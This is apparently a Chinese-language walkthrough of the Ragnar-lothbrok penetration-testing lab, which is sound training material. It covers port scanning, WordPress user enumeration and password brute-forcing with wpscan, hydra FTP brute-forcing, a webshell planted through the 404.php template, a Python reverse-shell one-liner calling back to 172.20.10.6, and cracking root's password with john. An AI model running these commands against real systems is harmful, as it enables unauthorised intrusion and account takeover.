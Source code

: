

# Ragnar-lothbrok

## 端口扫描

```bash
nmap -p- -A ip
```

发现存在四个端口服务

![image-20221220160155959](./index/image-20221220160155959.png)

## web信息收集

无论是http还是https都指向了同一个网站,dirsearch扫描一波子目录

发现没啥

![image-20221220160354483](./index/image-20221220160354483.png)

对根目录扫描一波，发现一些有趣的，存在wordpress

![image-20221220160737985](./index/image-20221220160737985.png)

secret页面猜测是一些密码信息，可能是之前那个ftp的

![image-20221220160933743](./index/image-20221220160933743.png)



```bash
wpscan --url url -e u,p
```



通过wpscan获得了用户名信息

![image-20221220161532134](./index/image-20221220161532134.png)

识别出来用户ragnar,用前面得到的密码字典破解一下

```bash
wpscan --url url -U ragnar -P dic 
```

成功获取到用户名密码

![image-20221220162211230](./index/image-20221220162211230.png)

有些格式问题改下hosts

![image-20221220162721502](./index/image-20221220162721502.png)



成功登录到后台

![image-20221220163142008](./index/image-20221220163142008.png)

更改下模板文件内容404.php



![image-20221220163410418](./index/image-20221220163410418.png)



## ftp爆破

根据上面收集到的信息ftp用户名很可能是ragnar，密码顺手爆破一下

```bash
hydra -l ragnar -P secret ur ftp
```

![image-20221220163039068](./index/image-20221220163039068.png)

一看就知道可以直接上传shell，不过上一步我们已经shell了

![image-20221220163256085](./index/image-20221220163256085.png)

## 获取ttyshell

```bash
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("172.20.10.6",1236));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```



![image-20221220163528938](./index/image-20221220163528938.png)

但是这个shell很受限制尝试之前ftp的密码ssh登录ragar，登录成功，在用户目录下发现一个secret文件

![image-20221220164136728](./index/image-20221220164136728.png)

尝试读取发现失败

![image-20221220164208891](./index/image-20221220164208891.png)

但是这样就没有拦截不知道怎么做到的

![image-20221220164303159](./index/image-20221220164303159.png)

## john爆破root密码



```bash
john --wordlist=/usr/share/wordlists/rockyou.txt secret
```

爆破得到root的密码

![image-20221220165638852](./index/image-20221220165638852.png)



## 提权

成功提权

![image-20221220165807730](./index/image-20221220165807730.png)
